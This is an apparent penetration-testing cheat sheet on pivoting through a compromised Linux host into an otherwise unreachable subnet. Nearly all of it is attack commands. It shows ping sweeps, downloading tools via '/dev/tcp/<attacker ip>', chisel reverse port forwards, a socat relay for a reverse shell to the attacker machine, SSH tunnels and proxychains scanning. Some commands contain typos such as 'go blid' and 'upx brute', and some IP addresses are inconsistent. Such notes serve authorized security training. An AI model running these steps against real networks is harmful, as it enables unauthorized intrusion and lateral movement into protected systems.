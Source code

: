 # Pivoting in Unix/Linux

## Pivoting in Unix/Linux

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

## Enumerating Network Interface Cards \(NICs\)

First, we must enumerate the subnets that are on the operating system, we can do this with **ipconfig** or **ip** commands:

```text
ifconfig
ip a
```

Then we must review the output:

```text
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

In this example we see more than one network interface, however, we don't have access to the other network \`20.20.0.10\`. On the victim machine, we can perform a ping sweep to use ICMP and see which hosts are up and running. 

```text
fping -a -g 20.20.20.0/24 2>/dev/null
nmap -sn 20.20.20.0/24
for i in {1..254} ;do (ping 20.20.20.$i -c 1 -w 5  >/dev/null && echo "20.20.20.$i" &) ;done
```

Another host has been found \`20.20.20.15\` and has ports 80 and 22 open, but because we can not access this machine, we have to use the machine 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. This is where pivoting comes into place.

Here for the notes, we will have this special nomenclature:

* 20.20.20.15 -&gt; **victim machine**
* 10.10.10.10 -&gt; **pivoting machine**
* attacker -&gt; **attacker machine**

### Pivoting with chisel

Get chisel and build it.

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Send the chisel binary to the pivoting machine

* On attacker machine

```text
md5sum chisel
nc -nlvp 443 < chisel
```

* On pivoting machine

```text
cat > chisel < /dev/tcp/<attacker ip>/443
md5sum chisel
chmod +x chisel
```

* Create reverse port forwarding with the victim machine ports to bind attacker machine ports
  * On attacker machine

```text
./chisel server --reverse -p 1234
```

* On pivoting machine

```text
./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
```

Now the attacker can check the web app on `localhost:80` or use `ssh 127.0.0.1 -p 222`

### Pivoting with socat

Get socat static binary:

```text
wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
```

Send socat to pivoting machine:

* On attacker machine

```text
md5sum socat
nc -nlvp 443 < socat
```

* On pivoting machine

```text
cat > socat < /dev/tcp/<attacker ip>/443
md5sum socat
chmod +x socat
```

Prepare the attacker machine for listening:

```text
nc -nlvp 7979
```

Tunnel TCP data for a reverse shell from the victim to the attacker:

* On Pivoting Machine

```text
./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
```

We should have a reverse shell.

### Pivoting with SSH

#### SOCKS Proxy

```text
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

Cool Tip: Konami SSH Port forwarding

```text
[ENTER] + [~C]
-D 1090
```

#### Local Port Forwarding

```text
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```

#### Remote Port Forwarding

```text
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```

### Proxychains

### SSH Dynamic Port Forwarding

If the target has more than one NIC and more than one network subnet than we can use proxychains.

In Kali edit the proxychains configuration file:

```text
sudo vim /etc/proxychains.conf
```

Add this lines:

```text
[ProxyList]
socks4 127.0.0.1 8080
```

Perform a dynamic port forwarding to our port 8080

```text
sudo ssh -N -D 127.0.0.1:8080 username@<target-IP>
```

Then scan with nmap and specify a TCP scan with `-sT` and don't use `ICMP` with `-Pn`.

```text
proxychains nmap -p- -sT -Pn <target-Second-Interface-IP>
```





